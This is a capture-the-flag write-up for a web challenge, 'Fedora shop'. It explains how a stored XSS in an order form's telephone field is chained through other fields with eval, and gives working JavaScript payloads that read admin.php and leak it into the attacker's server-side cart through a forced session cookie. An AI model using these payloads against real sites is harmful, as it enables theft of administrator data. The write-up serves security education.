

# Fedora shop (Web)

We get access to a online shop with fedoras (every hacker should wear one!):


Once we add some stuff to the cart, we can submit the order and there we can see that the order initially has status `Pending approval` and after a a short while it gets changed to `Shipped`.
It seems like a textbook example for a XSS attack, so we try some injections in the fields of the order, and it turns out the "Telephone" field is not sanitized properly and can be injected with javascript.
There are, however, some problems:

1. There is a limit to how long the fields in the order can be, and the telephone field can't fit a long payload, so we have very limited number of characters we can use there.
2. The task description says that the admin is behind a firewall, and it seems that he can't make any external connections. It means that even if we can execute XSS code as admin, we can't really get the results back.


The first problem can be tackled by splitting the payload among other fields in the form and using the vulnerable field just as entry point. So there we put only:

```javascript
<script>
    window.onload=function(){
        eval(document.getElementsByTagName('td')[15].innerText);
    };
</script>
```

where the 15th `<td>` tag contains the contents of the field `other information`.
There we put:

```javascript
xhr = new XMLHttpRequest();
xhr.open('GET','/admin.php');
xhr.onreadystatechange = function() {
    if(xhr.readyState === XMLHttpRequest.DONE){
        eval(document.getElementsByTagName('td')[14].innerText);
    }
};
xhr.send();
```

This will read the contents of the `admin.php` page for us and then it will invoke the script stored in 14th `<td>` which means contents of `address` field.
By using this approach we bypass the problem of running a long script.

The other issue is how to retrieve the data back from the server since admin can't connect to any external server.

We noticed that the cart is implemented server-side, so the information about the object we put there is stored on the server and retrieved by session ID cookie.
The admin might not be able to connect to any external server, but can access the fedora shop as localhost, so we could potentially force the admin to place some things in a cart with specified session ID.

Initially we thought we will need to extract data character by character, by putting the ascii code of a single character as `quantity` of the fedoras to buy, but we noticed that there is no check if the field content is a number!
This meant we could simply put all of the contents at once with a single operation.
So the final part of the payload was:

```javascript
xhr = new XMLHttpRequest();
xhr.open('POST','/?action=add&code=wfedora',true);
xhr.withCredentials=true;
document.cookie='PHPSESSID=""" + session + """';
xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
xhr.send('quantity='+this.responseText);
```

Once we run the attack we can see in our cart:



Whole attack script [here](fedora.py)
